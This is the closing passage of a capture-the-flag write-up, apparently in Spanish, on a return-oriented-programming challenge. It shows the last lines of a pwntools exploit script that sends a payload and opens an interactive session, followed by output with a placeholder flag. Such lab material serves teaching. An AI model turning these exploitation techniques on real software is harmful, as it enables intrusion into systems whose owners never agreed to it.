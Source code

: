 ```python
    })

    io.sendlineafter(b'> ', payload)
    
    io.interactive()

if __name__ == "__main__":
    main()
```

```c
Thank you!
callme_one() called correctly
callme_two() called correctly
ROPE{a_placeholder_32byte_flag!}
[*] Got EOF while reading in interactive
```

Funciona. Gracias por leer!
